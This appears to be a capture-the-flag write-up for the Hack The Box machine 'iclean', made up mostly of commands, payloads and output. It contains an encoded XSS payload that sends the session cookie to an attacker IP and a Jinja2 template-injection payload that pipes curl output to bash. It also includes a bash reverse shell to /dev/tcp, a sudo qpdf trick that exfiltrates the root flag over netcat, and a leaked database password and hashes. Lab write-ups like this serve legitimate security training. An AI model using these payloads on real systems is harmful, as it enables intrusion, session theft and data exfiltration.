


User FLAG
-----

1. Scan with nmap
2. Found port 22,80
3. Add dns to /etc/hosts

```bash
dirsearch -u http://capiclean.htb -m GET

  _|. _ _  _  _  _ _|_    v0.4.2
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 30 | Wordlist size: 10927
Output File: /home/dyallo/.dirsearch/reports/capiclean.htb/_24-04-07_10-32-52.txt
Error Log: /home/dyallo/.dirsearch/logs/errors-24-04-07_10-32-52.log

Target: http://capiclean.htb/

[10:32:52] Starting: 
[10:33:13] 200 -    5KB - /about
[10:33:35] 302 -  189B  - /dashboard  ->  /
[10:33:48] 200 -    2KB - /login
[10:33:48] 302 -  189B  - /logout  ->  /
[10:34:02] 403 -  278B  - /server-status
[10:34:02] 403 -  278B  - /server-status/
[10:34:02] 200 -    8KB - /services

Task Completed
```

4. Found /login page
5. Tried sql injection, but no luck

```bash
python3 sqlmap.py --batch --dbs -r ~/Documents/Proyectos/hack-the-box/machines/iclean/req --ignore-code 401
```

6. Found /quote

```bash
wfuzz -c --hh=274 --hw=35 -w ~/Documents/Security/wordlists/common.txt -H "Host:FUZZ.capiclean.htb" -u http://capiclean.htb
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://capiclean.htb/
Total requests: 4613

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                  
=====================================================================


Total time: 93.96585
Processed Requests: 4613
Filtered Requests: 4613
Requests/sec.: 49.09229
```

6. Tried XSS in /quote and found session cookie

```bash

%3c%69%6d%67%2f%73%72%63%2f%6f%6e%65%72%72%6f%72%3d%22%74%68%69%73%2e%73%72%63%3d%27%68%74%74%70%3a%2f%2f%31%30%2e%31%30%2e%31%34%2e%36%35%2f%27%2b%64%6f%63%75%6d%65%6e%74%2e%63%6f%6f%6b%69%65%3b%22%3e
session=eyJyb2xlIjoiMjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzMifQ.ZhA2NQ.exhTMAlvjwi0f43YGz-4Ea14VoQ
```

7. Added session cookie in the page and now /dashboard is available



8. Generate Invoice (7499601381)

```bash
nc -lvpn 4444
sudo python3 -m http.server 80
```

```bash
# index.html
bash -i &> /dev/tcp/10.10.14.65/4444 0>&1
```

```
POST /QRGenerator HTTP/1.1
Host: capiclean.htb
Content-Length: 269
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://capiclean.htb
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.6261.112 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://capiclean.htb/QRGenerator
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: session=eyJyb2xlIjoiMjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzMifQ.ZhA2NQ.exhTMAlvjwi0f43YGz-4Ea14VoQ
Connection: close

invoice_id=7499601381&form_type=scannable_invoice&qr_link={%25+with+a+%3d+request["application"]["\x5f\x5fglobals\x5f\x5f"]["\x5f\x5fbuiltins\x5f\x5f"]["\x5f\x5fimport\x5f\x5f"]("os")["popen"]("curl+http%3a//10.10.14.65/|bash")["read"]()+%25}+{{+a+}}+{%25+endwith+%25}}
```

### Inside machine

```
/var/mail/consuela                                                                                
/var/spool/mail/consuela
/usr/share/bash-completion/completions/bind
/etc/hosts.allow
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                                                                                         
tcp        0      0 127.0.0.1:37941         0.0.0.0:*               LISTEN      -                                                                                         
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                                                                                         
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -                                                                                         
tcp        0      0 127.0.0.1:3000          0.0.0.0:*               LISTEN      1210/python3                                                                              
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                                                                                         
tcp        0      0 127.0.0.1:33060         0.0.0.0:*               LISTEN      -                                                                                         
tcp6       0      0 :::22                   :::*                    LISTEN      -    
```

Inside app.py there is this

```
# Database Configuration                                                                                                                                                  
db_config = {                                                                                                                                                             
    'host': '127.0.0.1',                                                                                                                                                  
    'user': 'iclean',                                                                                                                                                     
    'password': 'pxCsmnGLckUb',                                                                                                                                           
    'database': 'capiclean'                                                                                                                                               
} 
```

Inside `users` we found

admin `2ae316f10d49222f369139ce899e414e57ed9e339bb75457446f2ba8628a6e51`
consuela `0a298fdd4d546844ae940357b631e40bf2a7847932f82c494daa1c9c5d6927aa`



password for ssh `simple and clean`

Root FLAG
-----

```bash
sudo -l
[sudo] password for consuela: 
Matching Defaults entries for consuela on iclean:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User consuela may run the following commands on iclean:
    (ALL) /usr/bin/qpdf
```

```bash
find / -type f -iname '*.pdf' | grep -i ".pdf"
## We found this pdf /usr/share/doc/shared-mime-info/shared-mime-info-spec.pdf
sudo /usr/bin/qpdf --add-attachment /root/root.txt -- /usr/share/doc/shared-mime-info/shared-mime-info-spec.pdf output.pdf
nc -lvnp 1337 > output.pdf
nc 10.10.14.65 < output.pdf
```

Then I downloaded Adobe Acrobat Reader and opened the file


## Versions

Flask 2.3.7
Python 3.10.12

## Links

- https://github.com/HackTricks-wiki/hacktricks/blob/master/pentesting-web/ssti-server-side-template-injection/jinja2-ssti.md
- https://crackstation.net/
- https://qpdf.readthedocs.io/en/stable/cli.html
- https://play.google.com/store/apps/details?id=com.adobe.reader